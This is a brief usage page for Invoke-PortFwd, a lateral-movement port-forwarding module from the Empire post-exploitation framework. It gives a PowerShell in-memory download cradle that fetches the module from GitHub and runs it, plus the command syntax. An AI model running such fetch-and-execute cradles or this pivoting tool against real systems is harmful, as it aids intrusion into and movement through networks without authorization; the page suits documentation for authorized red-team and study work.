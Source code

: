 # Invoke-PortFwd

## Usage

Download cradle through memory.

```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/BC-SECURITY/Empire/refs/heads/main/empire/server/data/module_source/lateral_movement/Invoke-PortFwd.ps1')
```

The syntax as it follows.

```
PS C:\> Invoke-PortFwd <local_IP> <local_PORT> <remote_IP> <remote_PORT>
```

---
## References

- [BC-SECURITY: Invoke-PortFwd](https://github.com/BC-SECURITY/Empire/blob/main/empire/server/data/module_source/lateral_movement/Invoke-PortFwd.ps1)